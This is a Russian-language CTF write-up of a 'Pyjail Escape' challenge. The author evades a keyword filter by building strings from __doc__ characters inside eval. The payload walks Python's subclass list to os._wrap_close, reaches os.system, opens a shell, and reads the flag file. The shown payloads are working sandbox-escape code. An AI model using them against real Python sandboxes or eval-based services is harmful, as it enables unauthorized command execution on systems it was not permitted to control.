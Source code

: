 # Pyjail Escape (101 points, 67 solves)

> Python leave you must, to be master real!

Данный челлендж является продолжением [Pyjail ATricks](../Pyjail%20ATricks), поэтому я не буду повторять некоторые 
моменты.

Что же, из описания очевидно, что нам нужно как-то выйти из python тюрьмы. К этому моменту у меня уже было достаточно
знаний из изучения подобных задач. Очевидные попытки обратиться к `import`, `__import__`, `__builtins__` и подобным не
увенчались успехом. Тогда я дошёл до вывода всех доступных классов:

```python
>>> a = 1
# вводим 'a.__class__.__base__.__subclasses__()'
>>> a = eval("a.__class__.__"+eval("a.__doc__[27]")+"ase__.__s"+eval("a.__doc__[111]+a.__doc__[27]")+"classes__()")
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, 
<class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, 
<class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, 
<class 'dict_items'>, <class 'odict_iterator'>, <class 'set'>, <class 'str'>, <class 'slice'>, <class 'staticmethod'>, 
<class 'complex'>, <class 'float'>, <class 'frozenset'>, <class 'property'>, <class 'managedbuffer'>,
<class 'memoryview'>, <class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 'stderrprinter'>, 
<class 'code'>, <class 'frame'>, <class 'builtin_function_or_method'>, <class 'method'>, <class 'function'>, 
<class 'mappingproxy'>, <class 'generator'>, <class 'getset_descriptor'>, <class 'wrapper_descriptor'>, 
<class 'method-wrapper'>, <class 'ellipsis'>, <class 'member_descriptor'>, <class 'types.SimpleNamespace'>, 
<class 'PyCapsule'>, <class 'longrange_iterator'>, <class 'cell'>, <class 'instancemethod'>, 
<class 'classmethod_descriptor'>, <class 'method_descriptor'>, <class 'callable_iterator'>, <class 'iterator'>, 
<class 'coroutine'>, <class 'coroutine_wrapper'>, <class 'EncodingMap'>, <class 'fieldnameiterator'>, 
<class 'formatteriterator'>, <class 'filter'>, <class 'map'>, <class 'zip'>, <class 'moduledef'>, <class 'module'>, 
<class 'BaseException'>, <class '_frozen_importlib._ModuleLock'>, <class '_frozen_importlib._DummyModuleLock'>, 
<class '_frozen_importlib._ModuleLockManager'>, <class '_frozen_importlib._installed_safely'>, 
<class '_frozen_importlib.ModuleSpec'>, <class '_frozen_importlib.BuiltinImporter'>, <class 'classmethod'>, 
<class '_frozen_importlib.FrozenImporter'>, <class '_frozen_importlib._ImportLockContext'>, 
<class '_thread._localdummy'>, <class '_thread._local'>, <class '_thread.lock'>, <class '_thread.RLock'>, 
<class '_frozen_importlib_external.WindowsRegistryFinder'>, <class '_frozen_importlib_external._LoaderBasics'>, 
<class '_frozen_importlib_external.FileLoader'>, <class '_frozen_importlib_external._NamespacePath'>, 
<class '_frozen_importlib_external._NamespaceLoader'>, <class '_frozen_importlib_external.PathFinder'>, 
<class '_frozen_importlib_external.FileFinder'>, <class '_io._IOBase'>, <class '_io._BytesIOBuffer'>, 
<class '_io.IncrementalNewlineDecoder'>, <class 'posix.ScandirIterator'>, <class 'posix.DirEntry'>, 
<class 'zipimport.zipimporter'>, <class 'codecs.Codec'>, <class 'codecs.IncrementalEncoder'>, 
<class 'codecs.IncrementalDecoder'>, <class 'codecs.StreamReaderWriter'>, <class 'codecs.StreamRecoder'>, 
<class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class 'abc.ABC'>, 
<class 'collections.abc.Hashable'>, <class 'collections.abc.Awaitable'>, <class 'collections.abc.AsyncIterable'>, 
<class 'async_generator'>, <class 'collections.abc.Iterable'>, <class 'bytes_iterator'>, <class 'bytearray_iterator'>, 
<class 'dict_keyiterator'>, <class 'dict_valueiterator'>, <class 'dict_itemiterator'>, <class 'list_iterator'>, 
<class 'list_reverseiterator'>, <class 'range_iterator'>, <class 'set_iterator'>, <class 'str_iterator'>, 
<class 'tuple_iterator'>, <class 'collections.abc.Sized'>, <class 'collections.abc.Container'>, 
<class 'collections.abc.Callable'>, <class 'os._wrap_close'>, <class '_sitebuiltins.Quitter'>, 
<class '_sitebuiltins._Printer'>, <class '_sitebuiltins._Helper'>]
```

Из интересных замечаем `<class 'os._wrap_close'>`. Мы можем воспользоваться данным классом, чтобы обратиться к другим
функциям из модуля `os`, а если конкретнее, то к `system`. Делается это так (117 - индекс `<class 'os._wrap_close'>`):

```python
>>> a = 1
# 'a.__class__.__base__.__subclasses__()[117].__init__.__globals__["system"]("sh")'
>>> a = eval('eval("a.__class__.__"+eval("a.__doc__[27]")+"ase__.__s"+eval("a.__doc__[111]+a.__doc__[27]")+"classes__()")[117].__init__.__glo'+eval("a.__doc__[27]")+'als__["s'+eval("a.__doc__[312]")+'ste'+eval("a.__doc__[112]")+'"]("s'+eval("a.__doc__[270]")+'")')
# тут мы уже выбрались из тюрьмы
$ ls
LOS7Z9XYZU8YS89Q24PPHMMQFQ3Y7RIE.txt pyjail.py ynetd
$ cat *.txt
ALLES{th1s_w4s_a_r34l_3sc4pe}
```

Флаг наш!

*Примечание:* конечно же, я не удержался и прочитал [pyjail.py](../pyjail.py), ибо мне было интересно, как всё было 
устроено. Выкладываю этот файл для всех любопытных.